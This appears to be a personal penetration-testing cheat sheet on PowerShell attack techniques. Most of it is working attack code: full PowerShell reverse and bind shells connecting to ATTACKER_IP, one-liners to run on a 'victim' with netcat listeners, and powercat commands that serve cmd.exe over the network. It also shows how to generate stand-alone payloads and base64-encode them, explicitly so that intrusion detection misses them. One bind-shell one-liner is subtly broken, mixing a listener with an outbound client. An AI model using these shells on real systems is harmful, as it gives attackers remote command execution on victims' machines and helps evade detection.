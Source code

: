 # Powershell

* Set `ExecutionPolicy` to `Unrestricted`, run `powershell` as admin:
```
Set-ExecutionPolicy Unrestricted
Y
```

* Check `ExecutionPolicy` status:
```
Get-ExecutionPolicy
```

* File Transfer / Downloading with powershell, `new-object` instantiates a new `.NET` framework or `.COM` object, in our case, we are creating an instance of `WebClient` under the namespace of `System.Net`. This class contains a public function, `DownloadFile`, which takes two parameters, source location in the form of a `URI`, and a target location. (where the downloaded file will be stored)
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://localhost/file','C:\Users\saccharide\Desktop\file')"
```

## Bind Shell & Reverse Shell
* A `bind shell` is when the victim binds `/bin/bash` to a port and is listening on its machine for attacker to connect to it and run command, but this is mostly likely blocked by firewall since the attacker is coming from the outside world, and is viewed as insecure network. This leds to `reverse shell`.
* A `reverse shell` is when the attacker creates a server and makes the victim connects to the attacker's machine. By defualt, firewalls are configured to deny access from insecure network (attacker's) to secure network (victim's), but they allow access from secure network to the insecure network. This means we can makes the victim to initiate the connection to attacker, and executes `/bin/bash` upon established connection.

## Reverse Shell!
* `iex` executes the string as command, similar to running `bash -c` or `powershell -c`, running command 
```
$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',1337);

$stream = $client.GetStream();

[byte[]]$bytes = 0..65535|%{0};

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte, 0, $sendbyte.Length);
    $stream.Flush();
}

$client.Close();
```

Final setup:
```
Attacker:
nc -lvnp 1337

Victim:
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();"
```

## Bind Shells
* Bind shell 
```
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',1337);
$listener.start();
$client = $listener.AcceptTcpClient();
$stream = $client.GetStream();

[byte[]]$bytes = 0..65535|%{0};

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte, 0, $sendbyte.Length);
    $stream.Flush();
}

$client.Close();
$listener.Stop();
```

* Final Setup
```
Attacker:
nc -nv VICTIM_IP 1337

Victim:
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',1337); $listener.start();$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop();"
```

## Powercat
* `powercat` is essentially the Windows' verison of `netcat`.
* Dot-Soucring, kind of like loading `.bashrc`, will only be avaiable for the current powershell session, and will need to be reloaded every time if want to use.
```
. .\powercat.ps1
powercat -h
```

### File Transfer
* `-c` client mode, and we will need to specify the receiver's IP, `-p` will need the receiver's port number, `-i` specifies the local input file we want to transfer
```
Reciver:
nc -lnvp 1337 > receive.ps1

Sender:
powercat -c RECEIVER_IP -p RECEIVER_PORT -i C:\Users\saccharide\powercat.ps1
```

### Reverse shell
* Again, `reverse shell` is where the attacker starts a listener, and makes the victim initiate the connection
```
Attacker:
nc -lnvp 1337

Victim:
powercat -c ATTACKER_IP -p 1337 -e cmd.exe
```

### Bind Shell
* Again, `bind shell` is where the victim starts the listener and wait for attacker to connect to it to run shell commands.
```
Attacker:
nc -nv VICTIM_IP 1337

Victim:
powercat -l -p 1337 -e cmd.exe
```

### Stand-Alone Payloads
* `-g` option will generate a payload and we can redirect the output of this to a file, and powershell can run the generated payload directly
```
Attacker:
nc -lnvp 1337

Vitcim:
powercat -c ATTACKER_IP -p 1337 -e cmd.exe -g > reverse-shell.ps1
./reverse-shell.ps1
```

* Since most IDS will be able to detect such simple payload, we can encode it to `base64` with `-e` option, and we can use run it with `powershell -E`
```
Attacker:
nc -lnvp 1337

Vitcim:
powercat -c ATTACKER_IP -p 1337 -e cmd.exe -ge > reverse-shell.ps1
powershell.exe -E CONTENT_OF_REVERSE-SHELL.ps1
```

